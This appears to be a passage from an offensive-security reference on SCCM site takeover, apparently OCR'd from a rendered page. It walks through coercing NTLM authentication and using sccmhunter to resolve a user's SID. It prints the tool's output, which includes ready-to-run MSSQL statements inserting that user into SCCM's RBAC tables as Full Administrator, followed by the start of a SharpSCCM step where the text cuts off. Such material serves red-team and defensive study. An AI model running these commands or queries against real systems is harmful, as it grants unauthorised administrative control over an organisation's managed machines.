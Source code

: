 ## Examples
The steps to execute TAKEOVER-1.1 through TAKEOVER-1.4 are the same except that a different system is targeted for coercion of NTLM authentication.

1. (Linux) Use `sccmhunter` to get the hex-formatted SID of the Active Directory user you'd like to grant the Full Administrator role in SCCM, as well as the MSSQL statements required to grant the role to the user:

    ```
    $ python3 sccmhunter.py mssql -dc-ip 192.168.57.100 -d MAYYHEM.LOCAL -u 'lowpriv' -p 'P@ssw0rd' -debug -tu lowpriv -sc ps1

                                                                                            (
                                        888                         d8                         \
    dP"Y  e88'888  e88'888 888 888 8e  888 ee  8888 8888 888 8e   d88    ,e e,  888,8,        )
    C88b  d888  '8 d888  '8 888 888 88b 888 88b 8888 8888 888 88b d88888 d88 88b 888 "    ##-------->
    Y88D Y888   , Y888   , 888 888 888 888 888 Y888 888P 888 888  888   888   , 888           )
    d,dP   "88,e8'  "88,e8' 888 888 888 888 888  "88 88"  888 888  888    "YeeP" 888          /
                                                                                            (
                                                                    v0.0.2                   
                                                                    @garrfoster                    
        
        
        
    [13:13:33] DEBUG    [+] Bind successful ldap://192.168.57.100:389 - cleartext                                        
    [13:13:33] INFO     [*] Resolving lowpriv SID...                                                                     
    [13:13:33] DEBUG    [+] Found lowpriv SID: S-1-5-21-622943703-4251214699-2177406285-1112                             
    [13:13:33] INFO     [*] Converted lowpriv SID to 0x010500000000000515000000D75D21256B6364FD4D95C88158040000          
    [13:13:33] DEBUG    [+] Found domain netbiosname: MAYYHEM                                                            
    [13:13:33] INFO     [*] Use the following to add lowpriv as a Site Server Admin.                                     

    USE CM_ps1; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000D75D21256B6364FD4D95C88158040000,'MAYYHEM\lowpriv',0,0,'','','','','ps1');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'MAYYHEM\lowpriv'),'SMS0001R','SMS00004','1');
    ```

    (Windows) Use `SharpSCCM`to get the hex-formatted SID of the Active Directory user you'd like to grant the Full Administrator role in SCCM, and assemble the query based on the output from the example `sccmhunter` command above, substituting the user SID, domain, and site code (`ps1` in this example) where appropriate.

    ```
    > .\SharpSCCM.exe local user-sid

    _______ _     _ _______  ______  _____  _______ _______ _______ _______
    |______ |_____| |_____| |_____/ |_____] |______ |       |       |  |  |
    ______| |     | |     | |    \_ |       ______| |______ |______ |  |  |    @_Mayyhem
